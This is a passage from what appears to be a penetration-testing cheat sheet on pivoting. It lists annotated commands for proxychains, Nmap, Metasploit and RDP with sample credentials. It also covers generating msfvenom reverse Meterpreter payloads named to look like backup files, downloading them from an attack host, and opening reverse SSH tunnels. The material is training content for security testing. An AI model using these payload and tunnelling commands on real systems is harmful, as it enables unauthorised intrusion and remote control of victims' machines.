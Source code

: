 > Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (`-v`), disabling ping discover (`-Pn`), and using TCP connect scan type (`-sT`).

`proxychains msfconsole`

> Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy.

`msf6 > search rdp_scanner`

> Metasploit search that attempts to find a module called `rdp_scanner`.

`proxychains xfreerdp /v:<IPaddressofTarget> /u:lafi /p:pass@123`

> Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy.

`msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`

> Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following `lhost=` on local port 8080 (`LPORT=8080`). Payload will take the form of an executable file called `backupscript.exe`.

`msf6 > use exploit/multi/handler`

> Used to select the multi-handler exploit module in Metasploit.

`scp backupscript.exe ubuntu@<ipAddressofTarget>:~/`

> Uses secure copy protocol (`scp`) to transfer the file `backupscript.exe` to the specified host and places it in the Ubuntu user's home directory (`:~/`).

`python3 -m http.server 8123`

> Uses Python3 to start a simple HTTP server listening on port `8123`. Can be used to retrieve files from a host.

`Invoke-WebRequest -Uri "[http://172.16.5.129:8123/backupscript.exe](http://172.16.5.129:8123/backupscript.exe)" -OutFile "C:\backupscript.exe"`

> PowerShell command used to download a file called backupscript.exe from a webserver (`172.16.5.129:8123`) and then save the file to location specified after `-OutFile`.

`ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN`

> SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port `8080` on the attack host to port `80` on the target.

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080`

> Uses msfveom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after `LHOST=` on port 8080 (`LPORT=8080`). Payload takes the form of an executable elf file called backupjob.

`msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`

> Metasploit command that runs a ping sweep module against the specified network segment (`RHOSTS=172.16.5.0/23`).

